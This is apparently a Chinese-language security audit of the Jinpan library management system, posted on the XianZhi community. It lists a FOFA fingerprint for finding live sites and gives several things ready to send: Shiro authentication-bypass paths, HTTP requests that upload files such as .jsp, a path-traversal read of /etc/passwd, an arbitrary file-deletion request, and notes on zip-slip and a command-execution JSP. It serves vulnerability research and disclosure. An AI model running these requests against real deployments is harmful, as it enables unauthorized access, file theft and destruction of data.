# 金盘图书馆管理系统代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/19109  
> **文章ID**: 19109

---

# 介绍

金盘图书馆管理系统是一款专为图书馆设计的高效、智能化的管理系统。它提供了完善的图书信息管理、借阅还书管理、读者管理等功能，使得图书馆工作变得更加便捷和高效​

fofa指纹："/opac/search/autoFill?field=title"



**首页**



# 代码审计

## 架构分析



我手上这套是一位师傅从自己学校自提的，除了项目本身的代码，还有很多自己加的业务代码，项目是Spring MVC架构，路由方法是controller，前端采用jsp，看了下jsp也有部分业务处理代码，主要还是controller，第一步还是关注web.xml中的配置



## 鉴权分析

配置文件中有多个filter，一个个看，发现了shiro配置



并且是全局拦截，那么看下shiro相关配置文件



/admin下路由需要用户权限，这里没有配置全局拦截，也就是说除/admin以外的路由都可以访问，但是感觉这样配置不太现实，并且测试过一些目标，发现对于一些没配置的接口也有鉴权，不清楚是这套代码被高度二开过开发修改了，还是这套版本偏低。

而且这里shiro版本偏低，还存在历史洞权限绕过问题



还有个CAS 助手过滤器，跟进类处理



在初始化的时候会设置web.xml中设置的路径



然后对我们的请求进行拦截，进行方法判断，主要关注放行条件，其中



和配置文件内容相关，跟进方法处理



获取我们的请求的资源路径，判断我们的资源路径是否等于excludePrefixArry中的内容，excludePrefixArry就是我们初始化的时候通过配置文件获取的excludePrefixes，满足就返回true，都不满足接着判断我们请求资源的后缀，是否满足excludeExtentions，那这里大部分接口都放行的，而且满足后缀就放行，可以使用xxxx;.js的方法绕过

还有一个是



疑似管理员鉴权



我真挺想分析的，但是反编译内容不全，这个filter主要做用户权限划分的，判断用户是否有对应资源的访问权限，其中配置了免检后缀



关键方法是这个，其中对于/admin/，/admin/login会放行，其次是获取配置文件中的后缀，符合的放行，也就是说访问/admin/xxx;.js就可以绕过权限校验。可惜是权限划分的filter，要未授权得绕过shiro

剩下的就和鉴权没关系了，一些路径的处理，也不知道是本来就有还是自己加的

## shiro反序列化和鉴权绕过

项目使用的是shiro鉴权，那么就要考虑shiro的经典漏洞了，查看shiro版本



1.2.1，很低的版本，符合shiro550要求，全局搜索设置密钥的方法`.setCipherKey(`





内嵌在jar包中，鉴权绕过只要符合版本的都有，例如：

```
/xxx/..;/admin/ctfer (只适用于Spring低版本<2.3)  
or  
/;/admin/ctfer (只适用于Spring低版本<2.3)  
or  
/admin;/ctfer (Spring全版本)  
漏洞说明  
Spring 与 Shiro 对于 "/" 和 ";" 处理差异导致绕过
```

还有一堆，都可以尝试

## 任意文件上传

### 第一处

ShlefController.java中的uploadimg



关注上传文件名的处理，128行通过getOriginalFilename方法获取，然后调用了generateFileName方法处理，跟进方法



获取原始文件名后缀，然后生成随机文件名，组合返回，134行把数据流写入新文件中，很明显的任意文件上传，而且这个接口没有鉴权拦截，后续好像是披露了还是啥测了通用/upload接口访问不了，/opac/shelf下的其它接口多数能访问，不是修复就是本来就有拦截

```
POST /opac/shelf/upload HTTP/1.1
Host: [目标主机]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: [长度]

----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="imgFile"; filename="example.jpg"
Content-Type: image/jpeg

[文件二进制数据]
----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="mapname"

[地图名称]
----WebKitFormBoundary7MA4YWxkTrZu0gW--
```

### 第二处

OpacUploadController.java中的upload方法



关注文件名的处理，51行获取原始文件名，59行生成保存文件名uploadTime + fileName.substring(fileName.indexOf(46));,uploadTime是日期，fileName.substring(fileName.indexOf(46));是我们原始文件名的后缀，然后对生成的文件路径进行一些路径处理然后写入新文件中，很明显的任意文件上传

```
GET /opac/upload/upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123
Content-Length: [length]

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: text/plain

[文件内容]
------WebKitFormBoundaryABC123--
```

### 第三处

pages/admin/tools/uploadFile/doUpload.jsp



$uploadFile(接收4个参数

```
org.springframework.web.multipart.MultipartFile file, String root,
			String folder, String fileext
```

savePath是文件保存目录，通过root + folder构建，19行获取我们上传的原始文件名，判断文件名中是否包含黑名单列表，接着提取文件后缀，和System.currentTimeMillis()拼接成新文件，30行new 构建的文件，写入数据流，这里就一个黑名单判断，而且逻辑还怪怪的，看了下网上发现有披露信息，别人的poc是：jsp.jsp，这里的代码应该是二开的

跟进$uploadFile调用



调用方法也没有检测代码，这里构建目录的时候会生成个日期目录，调用代码也没有其它检测，但是这里文件名不能包含jsp,你别说虽然逻辑好像有问题，但是意外的安全，这里只能尝试编码绕过了

* `test.jsp` → `test.%6A%73%70`
* `test.jsp` → `test.jsp`

## zip解压任意文件写入

搜索关键词：unzip || zip

定位到ZipUtil.java中的unzip方法



很常规的文件解压操作，没有检测压缩包中的文件名是否合法

定位调用，在FileController.java中的unzipFile方法调用了



解压文件，a2是我们request请求传参，这里反编译问题不确定是是吗参数，也存在目录穿越

## 任意文件读取

搜索关键词：new FileInputStream(

对应文件：pages/admin/tools/file/download.jsp



接收参数items，判断值是否为null，然后调用expandFileList方法



把接收的文件存储到一个集合中，不用管，回到代码处理，53行判断filePath长度是否等于1，然后调用fileUtil.isFirectory(方法判断文件是否为目录，如果是的话准备打包zip，如果不是的话new 文件读取文件内容，过程中没有校验items是否存在恶意字符

```
GET /pages/admin/tools/file/download.jsp?items=../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept: */*
Connection: close
```

## 任意文件删除

搜索关键词：delete

定位到FileUtil.java中的deleteFile方法



查看方法调用



在FileController.java中的delete方法中调用，传入file，判断文件是否存在，存在则删除，没有检测file是否存在特殊字符，存在目录穿越+任意文件删除

```
POST /admin/tools/file/delete HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

file=../../../../etc/passwd
```

## 任意命令执行

这个应该是二开的，全局搜索Runtime.



定位到vim.jsp文件中



这些命令是m，通过request获取,122行判断p是否为xxxx，这里也是通过传参的，很明显的任意命令执行，这个应该是二开的功能

​

​

​
